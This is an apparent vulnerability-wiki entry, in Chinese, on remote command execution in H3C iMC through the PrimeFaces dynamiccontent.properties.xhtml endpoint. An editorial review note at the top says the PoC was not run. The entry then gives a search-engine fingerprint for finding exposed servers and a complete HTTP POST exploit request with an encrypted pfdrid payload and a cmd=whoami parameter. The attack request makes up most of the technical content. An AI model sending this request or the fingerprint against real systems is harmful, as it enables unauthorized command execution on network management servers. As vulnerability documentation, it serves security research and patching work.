


# H3C IMC dynamiccontent.properties.xhtm 远程命令执行

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：H3C iMC PrimeFaces
- 本文讨论：dynamiccontent.properties.xhtml代码执行
- 版本、权限与配置前提：样例含JSESSIONID；版本仅产品名
- 资料类型：短PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 与134同密文payload，仅报文头不同；没有解释会话是否必要
- 标题xhtm漏l；无载荷生成/库版本/补丁或官方来源
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 会话要求/通用密文依赖待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

H3C IMC dynamiccontent.properties.xhtm 存在远程命令执行，攻击者通过构造特殊的请求造成远程命令执行

## 漏洞影响

```
H3C IMC
```

## 网络测绘

```
"/imc/login.jsf" && body="/imc/javax.faces.resource/images/login_help.png.jsf?ln=primefaces-imc-new-webui"
```

## 漏洞复现

登录页面




发送如下请求包

```http
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: 
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8
Cookie: oam.Flash.RENDERMAP.TOKEN=jw7ysel68; JSESSIONID=EB4E60FA4F333FF21B488E9937B4C739; currentThemeName=imc-new-webui
Content-Type: application/x-www-form-urlencoded
Content-Length: 1564

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```





##

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
